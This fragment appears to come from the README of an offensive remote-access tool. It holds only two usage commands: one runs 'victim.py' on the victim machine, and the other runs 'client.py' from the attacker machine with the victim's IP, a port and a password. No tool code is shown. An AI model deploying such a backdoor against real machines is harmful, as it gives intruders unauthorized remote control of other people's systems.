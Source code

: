 Command to run on victim machine:
```bash
python3 victim.py <client ip> <port>
```

Command to run on attack/client machine:
```bash
python3 client.py <victim ip> <port> <password>
```
